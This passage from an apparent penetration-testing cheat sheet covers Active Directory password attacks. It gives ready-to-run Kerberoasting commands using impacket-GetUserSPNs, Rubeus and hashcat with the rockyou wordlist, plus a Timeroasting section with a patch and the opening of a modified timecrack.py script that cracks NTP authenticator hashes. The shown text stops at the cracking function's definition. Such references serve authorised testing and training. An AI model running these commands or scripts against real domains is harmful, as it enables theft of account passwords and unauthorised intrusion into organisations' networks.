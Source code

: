 #### Kerberoasting

```console
$ impacket-GetUserSPNs -dc-ip <RHOST> -request <DOMAIN>/<USERNAME>
$ hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

```cmd
PS C:\> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast
$ hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### Timeroasting

> github.com/SecuraBV/Timeroast

##### Script Modification

```python
  argparser.add_argument('hashes', type=FileType('r'), help='Output of timeroast.py')
  argparser.add_argument('dictionary', type=FileType('r'), help='Line-delimited password dictionary')
```

```python
  argparser.add_argument('hashes', type=lambda f: open(f, 'r', encoding='latin-1'), help='Output of timeroast.py')
  argparser.add_argument('dictionary', type=lambda f: open(f, 'r', encoding='latin-1'), help='Line-delimited password dictionary')
```

##### Modified timecrack.py

```python
#!/usr/bin/env python3

"""Perform a simple dictionary attack against the output of timeroast.py. Neccessary because the NTP 'hash' format 
unfortunately does not fit into Hashcat or John right now.

Not even remotely optimized, but still useful for cracking legacy default passwords (where the password is the computer 
name) or specific default passwords that are popular in an organisation.
"""

from binascii import hexlify, unhexlify
from argparse import ArgumentParser, FileType, RawDescriptionHelpFormatter
from typing import TextIO, Generator, Tuple
import hashlib, sys, re

HASH_FORMAT = r'^(?P<rid>\d+):\$sntp-ms\$(?P<hashval>[0-9a-f]{32})\$(?P<salt>[0-9a-f]{96})$'

def md4(data : bytes) -> bytes:
  try:
    return hashlib.new('md4', data).digest()
  except ValueError:
    # Use pure-Python implementation by James Seo in case local OpenSSL does not support MD4.
    from md4 import MD4
    return MD4(data).bytes()

def compute_hash(password : str, salt : bytes) -> bytes:
  """Compute a legacy NTP authenticator 'hash'."""
  return hashlib.md5(md4(password.encode('utf-16le')) + salt).digest()
    

def try_crack(hashfile : TextIO, dictfile : TextIO) -> Generator[Tuple[int, str], None, None]:
```